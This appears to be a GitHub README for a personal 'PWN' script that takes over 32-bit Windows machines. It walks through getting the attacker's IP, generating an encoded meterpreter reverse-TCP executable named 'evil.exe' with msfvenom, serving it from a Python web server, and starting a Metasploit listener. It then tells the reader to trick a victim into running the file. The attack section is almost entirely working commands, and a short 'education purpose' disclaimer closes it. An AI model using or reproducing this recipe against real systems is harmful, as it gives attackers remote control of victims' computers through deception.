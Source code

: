 # PWN
This section will contain scripts that I wrote to gain ownership to a machine.

|Name|Description|
|----|-----------|
|pwnWindows_x86.sh| Get a meterpreter shell from 32bit windows with evil.exe|

### pwnWindows_x86.sh
This is a script to be used in Kali linux where the tools are already preinstalled.
1. Getting own IP and port
    ```sh
    attackerip=`ifconfig eth0 | grep netmask | cut -d' ' -f10`
    attackerport=9107
    ```
    The backtick is equivalent to bash `$(...) `
    
2. Generate evil.exe
    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attackerip   LPORT=$attackerport -b '\x00\x0a\x0d' -f exe --arch x86 --platform windows -e x86/shikata_ga_nai -i 5 > evil.exe
    ```
    msfvenom is a very useful payload generator and encoder.
    
3. Host evil.exe on web server
    ```sh
    gnome-terminal --tab -e "python -m SimpleHTTPServer 80"
    ```
    A very simple way to start a web server with python2.7 
    `gnome-terminal --tab` was used to open up a separate terminal tab so that I can watch the web server on a separate terminal.
    
4. start metasploit meterpreter listener
    ```sh
    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST $attackerip; set LPORT $attackerport; run;"
    ```
    Now that the meterpreter is listening, we will need to trick the victim to download and run this malicious `evil.exe`

**This is just for education purpose, hence the obvious file naming without much trickery.**

 [dill]: <https://github.com/joemccann/dillinger>
 [markdown-it]: <https://github.com/markdown-it/markdown-it>
 [Ace Editor]: <http://ace.ajax.org>
